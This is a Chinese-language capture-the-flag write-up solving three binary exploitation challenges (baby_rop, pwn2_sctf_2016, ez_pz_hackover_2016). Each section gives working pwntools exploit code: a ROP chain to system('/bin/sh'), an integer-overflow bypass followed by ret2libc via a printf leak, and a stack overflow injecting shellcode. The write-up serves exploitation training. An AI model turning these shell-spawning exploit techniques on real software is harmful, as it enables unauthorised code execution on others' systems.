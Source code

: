 ### [HarekazeCTF2019]baby_rop

发现 `main` 里有 `system`，然后还找到了 `/bin/sh` 字符串和 `pop rdi` 的 gadget，那就老办法传参就行了，就是 getshell 之后需要找一下 flag 的位置。

```python
binsh = 0x601048
pop_rdi = 0x400683

payload = flat('a'*0x18,pop_rdi,binsh,elf.plt['system'])
sl(payload)
```

### pwn2_sctf_2016

本题先会让用户设置读入数据长度，如果大于 32 则退出。由于它自己实现的 `get_n` 函数第二个参数是 `unsigned int`，很容易想到使用整数溢出来绕过这个限制，因此可以输入 `-1` 产生栈溢出漏洞。然后 ret2libc 就好。

```python
ru('read?')
sl('-1')
ru('data!')

you_said_s = 0x80486f8
payload = flat('a'*(0x2c+4),elf.plt['printf'],elf.sym['main'],you_said_s,elf.got['printf'])
sl(payload)
ru('You said:')
ru('You said:')

printf = u32(r(4))
leak('printf',printf)
system,binsh = ret2libc(printf,'printf')

ru('read?')
sl('-1')
ru('data!')
payload = flat('a'*(0x2c+4),system,'a'*4,binsh)
sl(payload)
```

### ez_pz_hackover_2016

这题要求字符串 `s` 以 `crackme\x00` 开头，随后会执行 `memcpy` 将我们的输入复制到一个 `dest` 位置。我们通过 gdb 调试可以测出其距离 ebp 距离为 22，要覆盖到返回地址则需要 26 字节。至于返回地址，题目提供了字符串 `s` 的地址，但是直接以它作为返回地址会失败，gdb 调试到 `vuln` 函数中的 `ret` 语句的时候会发现，返回地址位于 `0xffca41dc`，而我们写入的数据位于 `0xffca41c0`，相差 `0x1c`，因此还需要考虑该偏移量。

```python
ru('crash:')
ss = int(ru('\n'),16)
leak('ss',ss)

payload = 'crashme\x00'.ljust(26,'\x00') + p32(ss-0x1c) + asm(shellcraft.sh())
sl(payload)
```
